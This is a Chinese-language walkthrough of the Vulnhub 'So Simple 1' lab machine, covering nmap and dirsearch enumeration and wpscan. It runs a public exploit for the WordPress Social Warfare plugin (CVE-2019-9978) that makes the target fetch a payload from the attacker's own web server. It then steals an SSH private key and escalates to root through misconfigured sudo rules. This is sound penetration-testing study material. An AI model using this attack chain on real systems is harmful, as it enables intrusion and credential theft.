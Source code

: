 ```yaml
---

title: Vulnhub	515 SO SIMPLE-1

---
```

考点：dirsearch,wordpress,sudo,id_rsa

靶机链接：<https://www.vulnhub.com/entry/so-simple-1,515/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| SIMPLE-1   | 10.0.2.30 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.30
$ sudo nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b:55:43:ef:af:d0:3d:0e:63:20:7a:f4:ac:41:6a:45 (RSA)
|   256 53:f5:23:1b:e9:aa:8f:41:e2:18:c6:05:50:07:d8:d4 (ECDSA)
|_  256 55:b7:7b:7e:0b:f5:4d:1b:df:c3:5d:a1:d7:68:a9:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: So Simple
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

### WEB测试

#### dirsearch

```bash
$ dirsearch -u http://10.0.2.30                    
[05:09:36] 200 -   13KB - /wordpress/ 
[05:09:36] 200 -    5KB - /wordpress/wp-login.php
```

看来是搞wordpress了

### 漏洞发现

```bash
$ wpscan --url http://10.0.2.30/wordpress/ --api-token ******************************************* 
```

![1](https://static.iihack.com/vulnhub/515/1.jpg)

参考[WordPress Plugin Social Warfare < 3.5.3 - Remote Code Execution](https://www.exploit-db.com/exploits/46794)

![2](https://static.iihack.com/vulnhub/515/2.jpg)

## 获得权限

### getwebshell

kali上开web服务

```bash
$ python -m 'http.server' 80
```

![3](https://static.iihack.com/vulnhub/515/3.jpg)



```bash
$ python2  46794.py -t http://10.0.2.30/wordpress/ -p http://10.0.2.24/CVE/CVE-2019-9978 
```

执行后访问shell地址返回200，使用antsword连接成功

![4](https://static.iihack.com/vulnhub/515/4.jpg)

### 获得id_rsa

发现`/home/max/.ssh/`目录可访问，下载id_rsa文件成功

ssh远程访问成功

![5](https://static.iihack.com/vulnhub/515/5.jpg)

## 提权

可免密执行`service`，[GTFOBins](https://gtfobins.github.io/gtfobins/service/)一把梭

![6](https://static.iihack.com/vulnhub/515/6.jpg)

成功切换用户

继续查看`sudo -l`，发现可免密执行`/opt/tools/server-health.sh`，但是这个文件不存在，只好自己新建写入了，运行获得root

![7](https://static.iihack.com/vulnhub/515/7.jpg)
